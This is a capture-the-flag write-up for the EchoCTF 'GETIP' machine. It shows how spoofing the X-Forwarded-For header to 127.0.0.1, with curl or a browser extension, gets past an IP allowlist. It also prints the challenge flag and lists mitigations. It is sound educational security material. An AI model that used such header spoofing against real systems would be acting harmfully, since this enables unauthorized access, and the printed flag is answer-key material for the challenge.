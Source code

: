 
![getip](GETIP.png)
# GETIP - CTF Writeup

---

## Introduction

The **GETIP** machine from **EchoCTF** presents a challenge based on manipulating HTTP headers so that the server interprets the request as coming from an allowed IP. The hint indicates that when a web request is forwarded through intermediary servers, a header is added to indicate who the request is being forwarded for. To solve the challenge, we need to make our IP appear as `localhost` or `127.0.0.1`.

---

## Reconnaissance and Exploration

When making an HTTP connection to the address `http://10.0.41.6:1337/` we receive the response:

```csharp
10.10.6.42 is not allowed...
```

This response indicates that the real IP from which the request is made (`10.10.6.42`) is blocked.

---

## Header Manipulation for Bypass

We observe that our `IP 10.10.6.42` is not allowed. The previous hint and this response indicate that we must change our `IP to 127.0.0.1 or 'localhost'` by manipulating headers, which can be achieved in two ways: graphically and via terminal. Both methods are explained below.

### Terminal Method (using curl)

Making a simple request with curl:

```bash
curl http://10.0.41.6:1337/
```

We get:

```
10.10.6.42 is not allowed...
```

If we want to see the headers our request sends, we can use:

```bash
curl -v http://10.0.41.6:1337/
```

This shows information like:

```
> GET / HTTP/1.1
> Host: 10.0.41.6:1337
> User-Agent: curl/8.13.0
> Accept: */*
```

To modify the apparent IP, we add the header `X-Forwarded-For` with the desired IP:

```bash
curl -H "X-Forwarded-For: 127.0.0.1" http://10.0.41.6:1337/
```

With this, the request appears to come from `127.0.0.1` instead of `10.10.6.42`.

Successful response:

```
ETSCTF_SheesStealer_was_here%
```

---

### Graphical Method (using browser and extensions)

1. We enter the URL `http://10.0.41.6:1337/` in the browser and see the blocking message.

![getip2](getip2.png)

2. We open the **ModHeader** extension (available for Chrome and Firefox).

![getip3](getip3.png)

3. We add a new header with:
   - Name: `X-Forwarded-For`
   - Value: `127.0.0.1`

![getip4](getip4.png)

4. We reload the page or navigate again to the URL.  
5. The response now shows the flag correctly.

---

## Vulnerability Identification

- The server trusts the value of the `X-Forwarded-For` header without proper validation.
- There is no robust authentication or IP validation control.
- Validation is based solely on the IP sent in manipulable headers, allowing spoofing.
- This misplaced trust opens the door to bypassing access controls and filtering.

---

## Mitigation Measures

- Validate and sanitize `X-Forwarded-For` and similar headers to ensure they come from trusted sources.
- Do not rely exclusively on HTTP headers to determine the real client IP.
- Implement access controls based on strong authentication rather than relying on IPs.
- Configure proxies and front-end servers to prevent users from modifying critical headers.
- Log and monitor suspicious accesses and anomalous patterns.

---

```c
Writeup Made With ❤️ By SheepsStealer
```
